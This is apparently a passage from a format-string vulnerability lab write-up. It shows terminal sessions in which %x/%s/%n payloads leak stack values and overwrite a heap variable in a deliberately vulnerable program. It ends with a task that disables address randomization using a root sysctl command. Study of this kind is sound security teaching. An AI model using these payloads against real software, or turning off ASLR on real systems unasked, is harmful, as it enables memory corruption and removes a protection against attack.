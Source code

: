 ```sh
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%s
bf984a98/00000001/b767d309/bf984abf/bf984abe/00000000/bf984ba4/0915c008/U
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
```
`U`'s ascii value is 55.

Modify the `secret[1]` value:
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfe4e8d0 (on stack)
The variable secret's value is 0x 9592008 (on heap)
secret[0]'s address is 0x 9592008 (on heap)
secret[1]'s address is 0x 959200c (on heap)
Please enter a decimal integer
156835852
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%n
bfe4e8d8/00000001/b7623309/bfe4e8ff/bfe4e8fe/00000000/bfe4e9e4/09592008/
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x48
```

Modify the `secret[1]` value to a pre-determined value:
```sh
[08/09/2016 00:12] seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfea5e60 (on stack)
The variable secret's value is 0x 8112008 (on heap)
secret[0]'s address is 0x 8112008 (on heap)
secret[1]'s address is 0x 811200c (on heap)
Please enter a decimal integer
135340044
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%.228u%n
bfea5e68/00000001/b7666309/bfea5e8f/bfea5e8e/00000000/bfea5f74/000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000135340040
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x123
```
0x123 = 291 = 9*7+228

### Task 2: Memory randomization
If the first scanf statement (`scanf("%d", int_input)`) does not exist, i.e., the program does not ask you to enter an integer, the attack in Task 1 become more difficult for those operating systems that have implemented address randomization. Pay attention to the address of `secret[0]` (or `secret[1]`). When you run the program once again, will you get the same address?

Address randomization is introduced to make a number of attacks difficult, such as buffer overflow, format string, etc. To appreciate the idea of address randomization, we will turn off the address randomization in this task, and see whether the format string attack on the previous vulnerable program (without the first scanf statement) is still difficult. You can use the following command to turn off the address randomization (note that you need to run it as root):
```sh
sysctl -w kernel.randomize_va_space=0
```
After turning off the address randomization, your task is to repeat the same task described in Task 1, but you have to remove the first scanf statement (`scanf("%d", int_input)`) from the vulnerable program.
